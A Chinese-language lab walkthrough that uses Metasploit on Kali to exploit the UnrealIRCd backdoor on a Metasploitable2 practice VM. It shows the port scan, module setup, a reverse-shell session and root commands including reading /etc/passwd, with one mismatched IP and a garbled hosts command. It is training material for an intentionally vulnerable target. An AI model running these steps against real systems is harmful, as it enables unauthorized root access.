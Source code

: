 ## 使用metasploit利用ircd服务得到root权限

1. 需要准备metasploitable2的VM环境，它是基于ubuntu8.04版本。
2.安装metasploit框架，这里我用的是kali发行版，主要难得去装这个环境，而且kali集成了很多工具。
3. 准备好后，启动metasploitable2和kali,登录kali上去更新一下metasploit。
```bash
[root@kali: ~#] msfupdate
```
4. 进入metasploitable2虚拟机,默认密码账号是msfadmin
```bash
#得到ip地址
msfadmin@metasploitable:~$ ifconfig eth0
eth0      Link encap:Ethernet  HWaddr 00:0c:29:cf:3a:19  
          inet addr:192.168.199.169  Bcast:192.168.199.255  Mask:255.255.255.0
          inet6 addr: fe80::20c:29ff:fecf:3a19/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:198973 errors:0 dropped:0 overruns:0 frame:0
          TX packets:200202 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:12035054 (11.4 MB)  TX bytes:12939094 (12.3 MB)
          Interrupt:19 Base address:0x2000 

```
5. 使用nmap扫描192.168.199.169开放的端口,为了方便加个host
```bash
#扫描端口
[root@kali: ~#] nmap -p 0-65535 192.168.199.169 
#会发现IRC服务的端口是开放的，下一步就是利用IRC服务
#ip地址不容易记住，使用hosts
[root@kali: ~#] echo "192.168.199.169 metasploitable2" >> /etc/hosts | tee -a
#测试下
[root@kali: ~#] ping metasploitable2
PING metasploitable2 (192.168.199.169) 56(84) bytes of data.
64 bytes from metasploitable2 (192.168.199.169): icmp_req=1 ttl=64 time=0.407 ms
...
```
6. 更新完成后启动msfconsole,加载ircd exploit
```bash
[root@kali: ~#] msfconsole
msf >
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
#查看选项
msf > show options
#设置RHOST，这里可以不用ip使用刚刚设置的hosts
msf exploit(unreal_ircd_3281_backdoor) > set RHOST 192.168.99.131
#跟上面使用ip一样的
msf exploit(unreal_ircd_3281_backdoor) > set RHOST metasploitable2
RHOST => metasploitable2
msf exploit(unreal_ircd_3281_backdoor) > exploit 

[*] Started reverse double handler
[*] Connected to metasploitable2:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Found your hostname
[*] Sending backdoor command...
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo FZXI87Tr7vTfa98G;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "FZXI87Tr7vTfa98G\r\n"
[*] Matching...
[*] A is input...

#这里已经得到一个session了
id
uid=0(root) gid=0(root)

whoami
root

#查看root密码
cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
```
